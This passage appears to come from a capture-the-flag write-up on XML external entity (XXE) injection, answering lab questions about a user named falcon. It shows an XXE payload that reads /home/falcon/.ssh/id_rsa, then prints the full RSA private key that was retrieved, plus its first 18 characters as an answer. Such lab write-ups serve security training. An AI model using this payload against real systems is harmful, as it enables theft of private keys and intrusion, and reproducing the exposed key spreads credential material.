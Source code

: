 `falcon`

4. Where is falcon's SSH key located?

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA7bq7Uj0ZQzFiWzKc81OibYfCGhA24RYmcterVvRvdxw0IVSC
lZ9oM4LiwzqRIEbed7/hAA0wu6Tlyy+oLHZn2i3pLur07pxb0bfYkr7r5DaKpRPB
2Echy67MiXAQu/xgHd1e7tST18B+Ubnwo4YZNxQa+vhHRx4G5NLRL8sT+Vj9atKN
MfJmbzClgOKpTNgBaAkzY5ueWww9g0CkCldOBCM38nkEwLJAzCKtaHSreXFNN2hQ
IGfizQYRDWH1EyDbaPmvZmy0lEELfMR18wjYF1VBTAl8PNCcqVVDaKaIrbnshQpO
HoqIKrf3wLn4rnU9873C3JKzX1aDP6q+P+9BlwIDAQABAoIBABnNP5GAciJ51KwD
RUeflyx+JJIBmoM5jTi/sagBZauu0vWfH4EvyPZ2SThZPfEb3/9tQvVneReUoSA5
bu5Md58Vho6CD81qCQktBAOBV0bwqIGcMFjR95gMw8RS9m4AyUnUgf438kfja5Jh
NP36ivgQZZFBqzLLzoG9Y9jlGKjiSyMvW4u63ZacCKPTpp5P53794/UVU7JiM03y
OvavZ2QveJp5BndV5lOkcIEFwFRACDK1xwzDRzx/TNJLufztb2EheMc3stNuOMea
TLKlbG0Mp/c2az8vNN6HA0QiwxYlKZ58RfdsOfbsFxAltYNnzxy9UEieXtrWVg7X
Qfi/ZeECgYEA/pfgg6BClEmipXv8hVkLWe7VwlFf4RXnxfWyi6OqC/3Yt9Q9B4Ya
6bgLzk2vPNHgJt+g2yh/TzMX6sCC9IMYedc0faiJr/VISBm25qTjqIGctwt0D3nb
j60mSKKFbwDPxrcek/7WH1cWDcaLTDdL9KPLk1JQzbwDzojrE1TDD+cCgYEA7wsA
MPm4aUDikZHKhQ5OOge+wzPNXVR6Yy1VV3WZfxRCoEuq6fYEJsKB5tykfQPC8cUn
qwGvo8TiMHbQ9KmI5FabfBK8LswQ575bnLtMxdPyBCgYqlsAIkPYQAOizUVlrOOg
faKF5VknsONM9DC3ZNx5L1zQXbsIrWbEPsRlytECgYB7CXr/IZwLfeqUfu7yoq3R
sJKtbhYf+S4hhTPcOCQd13e8n10/HZg0CzXpZbGieusQ3lIml9Ouusp8ML0Y3aIe
f9pmP+UKnEdqUMMLg/RhowHRlD9qm0F4lf1CbQh/NK01I5ore6SPUM7fqWv4UWDr
wZzIfad/RbWxQooYtYXvUQKBgFDLcBIdpYX1x16aX1AfqLMWgRSrQqNj9UXmQa0g
83OvXmGdkbQoUfjjz1I/i10x00cycxjqpfn9htIIptG7J6i92SnTj0Vl9eTOQ1qz
N9y5qVhcURHrVh0+vy3LzNACv73y5gDw2L7PJoo0GYODn8j4eAFZJpg3qlQpovTw
HtOxAoGABqwywFKFNTYgrl17Rs4g3H1nc0EhOzGetRaRL2bcvQsZevuWyswp0Mbm
9nlgNAtxttsmfL+OU7nP3I4YQlyZed4luRWcRaXrvGMqfEL4wzRez5ZxMnZM/IlQ
9DBlD9C7t5MI3aXR3A5zFVVINomwHH7aGfeha1JRXXAtasLTVvA=
-----END RSA PRIVATE KEY-----
```

5. What are the first 18 characters for falcon's private key

`MIIEogIBAAKCAQEA7b`

